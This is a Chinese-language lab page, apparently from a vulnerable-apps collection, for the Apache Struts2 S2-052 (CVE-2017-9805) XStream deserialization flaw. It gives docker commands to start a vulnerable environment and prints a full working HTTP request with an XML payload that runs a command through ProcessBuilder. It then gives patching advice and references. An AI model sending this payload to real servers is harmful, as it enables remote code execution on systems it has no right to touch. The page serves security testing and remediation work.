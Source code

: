 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-052)"
date: 2017-09-06 10:19:23 +0800
image: '/assets/img/'
description: 'Struts2 XStreamHandler 远程代码执行漏洞(S2-052､ CVE-2017-9805)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 XStreamHandler 远程代码执行漏洞(S2-052､ CVE-2017-9805)环境'
introduction: 'Struts2 XStreamHandler 远程代码执行漏洞(S2-052､ CVE-2017-9805)环境'
---
```

<style type="text/css">
.highlight pre{
  white-space: pre-wrap;
}    
</style>
### 漏洞信息

 * [S2-052 公告](https://cwiki.apache.org/confluence/display/WW/S2-052)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-052
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-052
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp 

> 来源：[Tomcat部署war - caiqiiqi的博客](http://blog.csdn.net/caiqiiqi/article/details/77861477)

执行 `/usr/bin/touch /tmp/vuln` 命令：

```http
POST /orders;jsessionid=A82EAA2857A1FFAF61FF24A1FBB4A3C7 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/xml
Content-Length: 1659
Referer: http://127.0.0.1:8080/orders/3/edit
Cookie: JSESSIONID=A82EAA2857A1FFAF61FF24A1FBB4A3C7
Connection: close
Upgrade-Insecure-Requests: 1


<map> 
<entry> 
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command><string>/usr/bin/touch</string><string>/tmp/vuln</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
</entry> 
</map>
```

发送之后，会在目标主机创建 `/tmp/vuln` 文件

**注意**

`POST /orders` 这个链接在本例中是这样请求的，在实际测试过程中可以直接对站点根目录请求 `POST /`

### 修复建议

1. 升级Apache struts 至 2.5.13 版本

2. 如果系统没有使用Struts REST插件，那么可以直接删除Struts REST插件，或者在配置文件中加入如下代码，限制服务端文件的扩展名
 ```xml
    <constant name="struts.action.extension" value="xhtml,,json" />
 ```

### 参考链接

* [Using QL to find a remote code execution vulnerability in Apache Struts (CVE-2017-9805)](https://lgtm.com/blog/apache_struts_CVE-2017-9805)
* [【漏洞预警】Apache Struts2插件高危漏洞(S2-052)](http://bobao.360.cn/news/detail/4291.html)
* [Tomcat部署war - caiqiiqi的博客](http://blog.csdn.net/caiqiiqi/article/details/77861477)
